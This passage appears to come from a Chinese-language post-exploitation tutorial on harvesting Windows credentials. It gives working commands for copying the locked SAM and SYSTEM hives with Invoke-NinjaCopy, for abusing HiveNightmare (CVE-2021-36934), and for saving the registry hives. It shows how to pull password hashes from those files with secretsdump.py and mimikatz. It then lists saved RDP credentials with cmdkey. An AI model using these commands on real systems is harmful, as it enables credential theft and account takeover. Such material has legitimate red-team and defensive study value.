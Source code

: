 ### 离线读取本地SAM文件

离线读取就是将`SAM`文件导出，使用`mimikatz`加载并读取其中的用户登录凭据等信息。需要注意的是，为了提高`SAM`文件的安全性以防止离线破解，`Windows`会对`SAM`文件使用秘钥进行加密，这个秘钥存储在`SYSTEM`文件中，与`SAM`位于相同目录下。

首先，在目标主机导出`SAM`和`SYSTEM`两个文件。由于在系统运行时，这两个文件是被锁定的，所以需要借助一些工具来实现，有如下几个实现方式：

- 利用`PowerSploit`项目中提供的`Invoke-NinjaCopy.ps1`脚本，下载地址：[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)。

```powershell
Import-Module ./Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path 'C:\Windows\System32\config\SAM' -LocalDestination 'C:\Users\Administrator\Desktop\SAM'
Invoke-NinjaCopy -Path 'C:\Windows\System32\config\SYSTEM' -LocalDestination 'C:\Users\Administrator\Desktop\SYSTEM'
```

- 利用`HiveNightmare`提权漏洞（`CVE-2021-36934`），可以直接读取`SAM`和`SYSTEM`文件。利用条件为，系统卷影副本，需要创建有系统还原点，影响范围为`Windwos10 Version 1809`以来发布的全部版本，包括`Windows11`在内。工具下载地址：[https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe](https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe)。工具下载地址：[https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)。

```powershell
# 直接执行HiveNightmare.exe就会在当前目录下导出生成SAM, SYSTEM, SECURITY三个文件
./HiveNightmare.exe
# 运行Impacket的secretsdump.py导出SAM文件中的哈希值
python3 secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

- 在管理员权限下执行命令，通过保存注册表的方式导出

```powershell
reg save HKEY_LOCAL_MACHINE\SAM\SAM sam.hive    # 导出SAM注册表
reg save HKEY_LOCAL_MACHINE\SYSTEM system.hive  # 导出SYSTEM注册表
 
mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" exit  # 使用mimikatz读取SAM文件内容
```

## 获取常见应用软件凭证

### 获取RDP保存的凭证

`RDP`远程桌面连接的凭据都使用数据保护`API`以加密形式存储在`Windows`的凭据管理器中，路径为`%USERPROFILE%\AppData\Local\Microsoft\Credentials`。

执行以下命令，查看当前主机上保存的所有连接凭据：

```powershell
cmdkey /list # 查看当前保存的凭据
dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\*   # 遍历Credentials目录下保存的历史连接凭据数据
```
